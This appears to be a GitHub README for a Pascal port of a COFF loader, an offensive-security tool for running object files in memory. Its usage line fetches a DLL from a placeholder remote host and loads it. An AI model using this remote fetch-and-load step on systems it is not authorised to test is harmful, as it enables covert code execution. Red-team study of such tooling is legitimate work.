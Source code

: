 
## Offsec Pascal 

The first ported COFF loader into Pascal Language, it is easier now with the DLL release from sliverarmy fork to integrate Object files with out rewrite the 
whole COFF Loader. 

## what i have did new? 

* the version ported from the following nim project () 
* make sure to host the COFFLoader.x64.dll into your remote host 
* the loader can fetch the remote dll and then load it. 


## usage 

* host your compiled DLL into your remote host, i have attached DLL copied from Lazy-nim github repo,
you can get yours from the following repo https://github.com/sliverarmory/COFFLoader/
* execute the loader 

```
project.exe -o whoami.o -u http://REMOTE/DLLNAME 

```

## Thanks

* https://github.com/sliverarmory/COFFLoader/
* https://github.com/zimnyaa/nim-lazy-bof/tree/main 
* https://github.com/trustedsec/COFFLoader

